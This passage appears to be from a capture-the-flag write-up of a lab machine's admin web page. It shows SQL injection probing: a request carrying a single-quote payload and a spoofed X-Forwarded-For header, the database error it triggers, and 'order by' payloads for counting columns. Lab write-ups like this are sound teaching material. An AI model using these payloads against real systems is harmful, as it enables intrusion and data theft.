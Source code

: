 The web application on _admin.php_ has several functionalities:
- _Find Products_
	- Input field to search through products
- _Latest Products_
	- View, update, delete products
- _Create product_
	- Three input fields to create products: name, quantity, price
- _Categories_
	- Input fields to update or delete categories
- _Create Category_
	- Input field to create category

As there are many different input fields, there may be **SQL Injection vulnerabilities** in one of them.

After sending a single quote (') to the input fields, the _"Find Products"_ feature responds with a SQL error:
```
POST /search_products.php HTTP/1.1
Host: 10.10.10.167
(...)
X-Forwarded-For: 192.168.4.28

productName=p'
```

![Find Products SQL error](control_web-2.png)

```
Error: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''p''' at line 1
```

Testing **UNION SQL Injection** to get the number of columns:
```
(...)
productName=p' order by 5-- -

productName=p' order by 6-- -

productName=p' order by 7-- -
```

